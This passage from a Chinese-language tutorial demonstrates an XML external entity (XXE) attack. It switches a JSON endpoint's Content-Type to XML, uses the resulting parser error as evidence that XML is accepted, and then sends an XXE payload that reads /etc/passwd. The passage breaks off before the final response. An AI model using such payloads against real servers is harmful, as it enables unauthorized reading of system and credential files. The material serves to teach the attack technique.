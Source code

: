 ```
HTTP/1.1 200 OK
Content-Type: application/json
Content-Length: 43

{"error": "no results for name netspitest"}
```

现在我们尝试将 Content-Type 修改为 application/xml

#### **进一步请求和响应：**

**HTTP Request:**

```
POST /netspi HTTP/1.1
Host: someserver.netspi.com
Accept: application/json
Content-Type: application/xml
Content-Length: 38

{"search":"name","value":"netspitest"}
```

**HTTP Response:**

```
HTTP/1.1 500 Internal Server Error
Content-Type: application/json
Content-Length: 127

{"errors":{"errorMessage":"org.xml.sax.SAXParseException: XML document structures must start and end within the same entity."}}
```

可以发现服务器端是能处理 xml 数据的，于是我们就可以利用这个来进行攻击

#### **最终的请求和响应：**

**HTTP Request:**

```
POST /netspi HTTP/1.1
Host: someserver.netspi.com
Accept: application/json
Content-Type: application/xml
Content-Length: 288

<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE netspi [<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<root>
<search>name</search>
<value>&xxe;</value>
</root>
```

**HTTP Response:**

